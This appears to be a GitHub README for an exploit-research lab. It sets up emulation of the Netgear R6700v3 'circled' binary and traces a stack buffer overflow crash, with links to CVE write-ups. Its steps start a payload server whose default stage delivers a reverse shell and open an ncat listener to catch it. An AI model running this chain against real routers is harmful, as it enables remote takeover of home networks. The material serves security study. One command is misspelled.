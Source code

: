 # Exploiting a Stack Buffer Overflow on the Netgear R6700v3
## 1. Setup
### 1.1 Host System
- Install the following dependencies:
  - git
  - binwalk (https://github.com/ReFirmLabs/binwalk)
- Clone the repository:
  ```
  git clone https://github.com/pdamian/netgear_r6700v3_circled.git && cd netgear_r6700v3_circled/
- Extract the R6700v3 firmware with *binwalk*:
  ```
  binwalk -e -M -C firmware/ firmware/R6700v3-V1.0.4.120_10.0.91.zip
  ```
- Copy the following files to the firmware's root filesystem:
  ```
  # Variable to the root filesystem
  export ROOTFS="$(pwd)/firmware/_R6700v3-V1.0.4.120_10.0.91.zip.extracted/_R6700v3-V1.0.4.120_10.0.91.chk.extracted/squashfs-root"
  
  # Copy pre-built gdbserver binary (or compile your own statically-linked version)
  cp firmware/bins/gdbserver $ROOTFS/gdbserver
  
  # Copy pre-built libnvram.so library (or compile your own version)
  cp firmware/bins/libnvram.so $ROOTFS/libnvram.so
  
  # Copy pre-built libcircled.so library (or compile your own version)
  cp firmware/bins/libcircled.so $ROOTFS/libcircled.so

  # Patch the circled binary
  python3 circled.patch.py $ROOTFS/bin/circled $ROOTFS/bin/circled.patched
  
  # Copy circled.sh script
  cp firmware/circled.sh $ROOTFS/circled.sh
  ```
- Copy the directories `$ROOTFS/` and `server/` to an ARMHF guest system (e.g. a *QEMU* ARMHF Debian VM).
### 1.2 ARMHF Guest System
- In the following, we assume that the variable $ROOTFS points to the copied firmware's root filesystem.
- Start the HTTP server delivering the payloads:
  ```
  # Using the default payloads triggering a reverse shell (use `--cmd` for a custom stage 0 payload)
  python3 server/circled.server.py
  ```
- In case the HTTP server was started with the default stage 0 payload (i.e. without customizing `--cmd`), listen for the reverse shell coming in on TCP port 5001:
  ```
  server/bins/ncat -l -p 5001
  ```
- Emulate the vulnerable *circled* binary:
  - Configure conservative ASLR as being used on the Netgear R6700v3:
    ```
    echo 1 | sudo tee /proc/sys/kernel/randomize_va_spac
    ```
  - Chroot into the root filesystem:
    ```
    sudo mount -t proc /proc/ $ROOTFS/proc/
    sudo mount -t sysfs /sys/ $ROOTFS/sys/
    sudo mount -o bind /dev/ $ROOTFS/dev/
    sudo chroot $ROOTFS/ /bin/sh
    ```
  - Execute the *circled* binary:
    ```
    export SHELL=/bin/sh

    # With GDB and therefore without ASRL (omit `--gdb` to run without GDB and with ASRL enabled)
    ./circled.sh --gdb
    ```
# 2. Morion Tracing
- Trace crash (`gdb-multiarch -q -x circled.gdb`)
## 2. References
- Emulating Netgear R6700v3 cicled binary:
  - https://medium.com/@INTfinity/1-1-emulating-netgear-r6700v3-circled-binary-cve-2022-27644-cve-2022-27646-part-1-5bab391c91f2
  - https://medium.com/@INTfinity/1-2-emulating-netgear-r6700v3-circled-binary-cve-2022-27644-cve-2022-27646-part-2-cf1571493117
  - https://medium.com/@INTfinity/1-3-exploiting-and-debugging-netgear-r6700v3-circled-binary-cve-2022-27644-cve-2022-27646-a80dbaf1245d
- Emulating IoT Firmware Made Easy:
  - https://boschko.ca/qemu-emulating-firmware/
- Defeating the Netgear R6700v3:
  - https://www.synacktiv.com/en/publications/pwn2own-austin-2021-defeating-the-netgear-r6700v3.html
- Chroot:
  - https://wiki.archlinux.org/title/Chroot#Using_chroot
- Ready-to-Use Cross-Compilation Toolchains:
  - https://toolchains.bootlin.com/
- NVRAM Emulator:
  - https://github.com/firmadyne/libnvram
